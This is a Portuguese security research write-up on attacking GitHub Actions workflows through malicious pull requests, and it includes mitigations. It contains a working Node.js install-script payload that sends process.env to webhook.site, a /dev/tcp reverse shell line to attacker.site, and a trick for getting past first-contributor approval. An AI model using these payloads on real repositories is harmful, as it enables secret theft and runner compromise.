

# Pesquisa de Segurança: Abusos em GitHub Actions via Pull Request Malicioso

## Objetivo

Investigar e documentar formas de explorar workflows inseguros no GitHub Actions a partir de Pull Requests maliciosos, visando:

- Exfiltrar informações sensíveis
- Obter shell reverso em runners
- Abusar de workflows reutilizáveis (reusable workflows)
- Simular cenários realistas de ameaças para subsidiar mitigações

---

## 1. Cenário Inicial

### Exemplo de Workflow Inseguro

```yaml
on:
  push:
    branches: [main]
  pull_request:
    paths:
      - "packages/**"

jobs:
  ci:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - run: yarn setup
```

### Problemas identificados

- Executa código arbitrário definido pelo PR
- `yarn setup` pode conter scripts maliciosos (ex: exfiltração)
- Ausência de `permissions:` definidos (usa padrão permissivo)
- Ações inseguras em PRs de forks com código controlado pelo atacante

---

## 2. Possíveis Vetores de Exfiltração

### ✅ Acessíveis via Payload

- `process.env`: variáveis de ambiente (ex: `GITHUB_REPOSITORY`, `RUNNER_OS`)
- Informações do sistema: `cwd`, `uptime`, `memoryUsage`, etc.
- Arquivos temporários (`/tmp`, `.env`, `.cache`)
- Resolução DNS (`/etc/resolv.conf`)
- Logs e artefatos

### ❌ Inacessíveis por padrão

- `secrets.*`: não disponíveis em PRs de forks
- `vars.*`: só disponíveis se usados no workflow YAML
- `GITHUB_TOKEN`: revogado em forks
- `core.getInput()`: exige `with:` no workflow
- `core.getIDToken()`: requer `permissions: id-token: write`

---

## 3. Payload de Exfiltração no `yarn setup`

### package.json

```json
"scripts": {
  "setup": "node scripts/malicioso.js"
}
```

### scripts/malicioso.js

```js
const https = require('https');

const data = {
  env: process.env,
  runner: {
    platform: process.platform,
    arch: process.arch,
    cwd: process.cwd(),
    uptime: process.uptime(),
    memory: process.memoryUsage(),
    versions: process.versions,
  }
};

const body = JSON.stringify(data);

const req = https.request({
  hostname: 'webhook.site',
  path: '/teste',
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Content-Length': body.length
  }
}, (res) => {
  console.log(`STATUS: ${res.statusCode}`);
});

req.on('error', (error) => {
  console.error('Erro ao enviar payload:', error);
});

req.write(body);
req.end();
```

---

## 4. Bypass de Proteção para PRs de Primeira Contribuição

### Como o GitHub se comporta

- Em PRs de forks de usuários novos, o GitHub **não executa workflows automaticamente**
- Exige aprovação manual por mantenedor via botão **“Approve and run workflows”**

### Estratégia do atacante

1. Criar perfil no GitHub com aparência legítima
2. Fazer um primeiro PR inofensivo (ex: correção de typo)
3. Após aprovação, fazer um segundo PR com payload
4. Workflow é executado automaticamente com contexto malicioso

---

## 5. Shell Reverso no Runner

### Payload comum

```bash
bash -i >& /dev/tcp/attacker.site/4444 0>&1
```

### Possibilidades no shell

- Listar variáveis e arquivos (`env`, `ls`, `cat`)
- Escanear rede interna (`ip addr`, `curl`)
- Explorar arquivos do runner (`/tmp`, `/home/runner`)
- Persistência e lateral movement (em self-hosted mal configurado)

---

## 6. Abuso de Reusable Workflows

### Problemas

- Workflows reutilizáveis públicos podem ser chamados por qualquer repositório
- Podem vazar outputs, segredos e rodar em ambientes sensíveis
- Falta de validação do `caller` permite uso malicioso externo

### Mitigações recomendadas

- Validar `github.repository` no reusable
- Definir `permissions: {}` por padrão
- Não usar `secrets` ou `env` sem checagem de escopo
- Proteger com ambientes (`environment`) e revisão manual se necessário

---

## 7. Fluxograma de Exploração



---

## Referências

- [GitHub Docs – Reusable Workflows](https://docs.github.com/en/actions/using-workflows/reusing-workflows)
- [GitHub Security Hardening](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions)
- [OIDC Token Leak - Rhys Arkins](https://rhysd.hashnode.dev/github-actions-oidc-token-leak)
- [Project Discovery CVE and GitHub Actions Research](https://blog.projectdiscovery.io/github-actions-vulnerabilities-research)
